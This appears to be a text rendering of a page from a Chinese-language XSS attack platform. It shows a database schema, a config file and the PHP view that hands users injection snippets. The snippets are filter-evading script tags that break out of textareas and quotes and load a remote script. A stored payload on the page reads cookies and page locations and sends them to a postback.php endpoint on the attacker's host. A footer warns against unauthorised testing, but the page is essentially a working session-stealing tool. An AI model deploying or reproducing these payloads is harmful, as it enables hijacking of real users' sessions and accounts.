
Screenshot of /project/viewCode.php?id=5WDCa1 (signed in) with the database file from the repository.
### tables this page shows
CREATE TABLE `project` (
  `guid` varchar(255) NOT NULL,
  `user_guid` varchar(255) NOT NULL,
  `project_name` varchar(255) NOT NULL,
  `timestamp` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP,
  `payload` text NOT NULL
);

### config/config.inc (called while the page is built, shortened)
<?php
  $xss_host="//127.0.0.1";
?>

### project/viewCode.php (the view, shortened to what this page needs)
<?php
  include("../utils/mysqli_utils.php");
  include("../config/config.inc");
  $stmt = $con->prepare("SELECT `guid`, `payload` FROM `project` WHERE `guid`=?");
  $stmt->bind_param("s", $_GET['id']);
  $stmt->execute();
  $result = $stmt->get_result();
?>
<!DOCTYPE html>
<html>
  <head>
    <link href="../assets/css/bootstrap.css" rel="stylesheet">
    <link href="../assets/css/bootstrap-responsive.css" rel="stylesheet">
  </head>
  <body>
    <div id="wrap">
      <div class="container">
        <?php include("../commons/nav.inc");?>
        <hr>
        <?php
          if (!empty($result) && mysqli_num_rows($result) != 0) {
            while ($row = $result->fetch_array()) {
        ?>
            <div>将如下代码植入怀疑出现xss的地方（注意'的转义）：</div>
            <pre class="well well-large">&lt;/tExtArEa&gt;&#039;&quot;&gt;&lt;sCRiPt sRC=<?php echo $xss_host."/?id=".$row['guid']; ?>&gt;&lt;/sCrIpT&gt;</pre>
            <div>如果管理员配置了rewrite，也可以如下使用：</div>
            <pre class="well well-large">&lt;/tExtArEa&gt;&#039;&quot;&gt;&lt;sCRiPt sRC=<?php echo $xss_host."/".$row['guid']; ?>&gt;&lt;/sCrIpT&gt;</pre>
            <div>Payload:</div>
            <pre class="well well-large"><?php echo $row['payload']; ?></pre>
        <?php
            }
          }
        ?>
      </div>
      <div id="push"></div>
    </div>
    <div id="footer">
      <div class="container">
        <p class="muted credit">注意：未获授权的安全测试将承担法律责任，请只在获得授权的情况下使用本工具。</p>
      </div>
    </div>
</body></html>

### project/viewCode.php (style rules this page uses)
html, body { height: 100%; }
#wrap { min-height: 100%; height: auto !important; height: 100%; margin: 0 auto -60px; }
#push, #footer { height: 60px; }
#footer { background-color: #f5f5f5; }
.container { width: auto; max-width: 680px; }
.container .credit { margin: 20px 0; }

### rows the page displays
project: guid "5WDCa1", payload "var x=new Image(); try { var myopener=''; myopener=window.opener && window.opener.location ? window.opener.location : ''; } catch(err) { } x.src='{host}/postback.php?id={projectId}&location='+escape(document.location)+'toplocation='+escape(top.document.location)+'&cookie='+escape(document.cookie);"

### other values shown
$_SESSION['nickname'] "盘古大帝"
